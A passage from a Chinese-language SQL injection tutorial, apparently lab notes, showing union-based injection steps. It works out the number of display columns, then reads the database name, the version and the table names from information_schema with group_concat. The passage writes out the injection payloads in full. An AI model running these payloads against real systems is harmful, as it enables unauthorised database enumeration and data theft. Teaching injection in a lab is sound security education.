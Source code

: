 #### 方法2：联合查询union

不断修改字段进行联合查询排序（联合查询，要每一个显示字段都存在，才不会报错），找到最大显示字段。找到报错与不报错的临界字段

```
猜测只有一个显示位：
1'union select 1#
猜测有两个显示位：
1'union select 1,2#
```

存在完整显示字段（不报错）

![image-20240913174613275](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240913174613275.png)



不存在完整字段报错

![image-20240913174656662](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240913174656662.png)



## 第四步：利用显示位输出信息

根据我们当前获得到的账号权限，对数据库进行各种查询

```sql
 1'union select 1, database()# 显示当前数据库名称
 1'union select 1, version()# 显示当前数据库版本
```

![image-20240913174952550](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240913174952550.png)



### 4.1 获取当前数据库名称

```sql
1'union select 1, database()# 显示当前数据库名称
```

![image-20240913175614927](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240913175614927.png)



### 4.2 根据数据库名称，我们获取源数据库表

#### 4.2.1获取当前数据库的表

```
没有指定数据库字符类型
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#

指定数据库字符类型
1' union select 1,group_concat(table_name collate utf8_unicode_ci) from information_schema.tables where table_schema=database()#
```
